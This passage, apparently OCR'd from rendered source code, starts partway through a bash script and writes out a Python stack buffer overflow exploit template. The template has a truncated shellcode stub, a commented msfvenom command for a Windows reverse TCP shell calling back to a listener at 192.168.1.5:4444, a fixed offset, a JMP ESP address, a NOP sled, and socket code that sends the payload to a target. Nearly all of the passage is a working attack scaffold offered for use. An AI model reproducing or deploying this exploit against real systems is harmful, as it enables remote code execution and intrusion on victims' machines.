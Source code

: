 ```bash
    print(f"0x{char:02x}")
EOF

# Step 4: Complete buffer overflow exploit template
cat > complete_exploit.py << 'EOF'
#!/usr/bin/env python3
import socket
import sys

def exploit_target(target_ip, target_port):
    """Complete buffer overflow exploit"""
    
    # Shellcode (replace with actual msfvenom output)
    # msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f python -b "\x00\x0a\x0d"
    shellcode = (
        b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
        # ... (actual shellcode would be much longer)
    )
    
    # Exploit parameters (target-specific)
    offset = 1978
    jmp_esp = 0x625011af  # JMP ESP address
    nop_sled = b"\x90" * 16
    
    # Build exploit buffer
    buffer = b"A" * offset
    buffer += jmp_esp.to_bytes(4, byteorder='little')
    buffer += nop_sled
    buffer += shellcode
    
    try:
        print(f"[+] Connecting to {target_ip}:{target_port}")
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target_ip, target_port))
        
        print(f"[+] Sending exploit payload ({len(buffer)} bytes)")
        s.send(buffer)
        s.close()
        
        print("[+] Exploit payload sent successfully")
        print("[+] Check your listener for incoming connection")
        
    except Exception as e:
        print(f"[-] Exploit failed: {str(e)}")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Usage: python3 exploit.py <target_ip> <target_port>")
        sys.exit(1)
    
    exploit_target(sys.argv[1], int(sys.argv[2]))
EOF
```
